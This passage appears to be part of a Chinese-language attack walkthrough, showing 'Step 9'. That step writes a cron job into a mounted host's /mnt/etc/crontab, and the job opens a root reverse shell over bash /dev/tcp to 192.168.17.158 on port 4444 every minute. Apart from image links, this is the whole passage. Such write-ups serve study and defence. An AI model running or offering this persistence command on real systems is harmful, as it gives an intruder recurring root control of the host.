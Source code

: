 [![](assets/1698893355-2454090321fa56c47f73f62097fcdb94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165322-f3affc8e-7313-1.png)

Step 9：之后写计划任务

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.158/4444 0>&1\n" >> /mnt/etc/crontab
```

[![](assets/1698893355-c8f1250161fccedafd03ea884759528a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165345-0128d052-7314-1.png)
